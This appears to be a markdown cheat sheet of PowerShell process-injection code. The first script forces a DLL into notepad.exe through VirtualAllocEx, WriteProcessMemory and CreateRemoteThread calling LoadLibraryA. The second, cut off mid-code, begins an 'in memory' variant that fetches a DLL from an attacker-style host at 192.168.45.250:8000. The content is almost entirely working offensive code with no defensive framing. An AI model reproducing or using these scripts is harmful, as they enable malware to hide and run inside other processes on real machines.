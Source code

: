 ### PowerShell Example of DLL Injection

```powershell
# Define the process name and DLL path
$processName = "notepad.exe"
$dllPath = "C:\\path\\to\\your\\dll.dll"

# Get the process ID of the target process
$process = Get-Process -Name $processName
$processId = $process.Id

# Open the process with all access rights
$processHandle = [Kernel32]::OpenProcess(0x1F0FFF, $false, $processId)

# Allocate memory in the target process
$memoryAddress = [Kernel32]::VirtualAllocEx($processHandle, [IntPtr]::Zero, [Text.Encoding]::ASCII.GetByteCount($dllPath) + 1, 0x3000, 0x40)

# Write the DLL path to the allocated memory
[Kernel32]::WriteProcessMemory($processHandle, $memoryAddress, [Text.Encoding]::ASCII.GetBytes($dllPath), [Text.Encoding]::ASCII.GetByteCount($dllPath) + 1, [ref]$null)

# Load the DLL by creating a remote thread
$loadLibraryAddr = [Kernel32]::GetProcAddress([Kernel32]::GetModuleHandle("kernel32.dll"), "LoadLibraryA")
$threadHandle = [Kernel32]::CreateRemoteThread($processHandle, [IntPtr]::Zero, 0, $loadLibraryAddr, $memoryAddress, 0, [ref]$null)

# Wait for the remote thread to complete
[Kernel32]::WaitForSingleObject($threadHandle, 0xFFFFFFFF)

# Clean up
[Kernel32]::VirtualFreeEx($processHandle, $memoryAddress, 0, 0x8000)
[Kernel32]::CloseHandle($threadHandle)
[Kernel32]::CloseHandle($processHandle)

Write-Output "DLL injection successful."
```

### Powershell  Dll injection in memory

```powershell
# Define the process name and DLL URL
$processName = "notepad.exe"
$dllUrl = "https://192.168.45.250:8000/myinjection.dll"

# Load the required functions
Add-Type @"
using System;
using System.Runtime.InteropServices;

public class Win32 {
    [DllImport("kernel32.dll", SetLastError=true, CharSet=CharSet.Auto)]
    public static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

```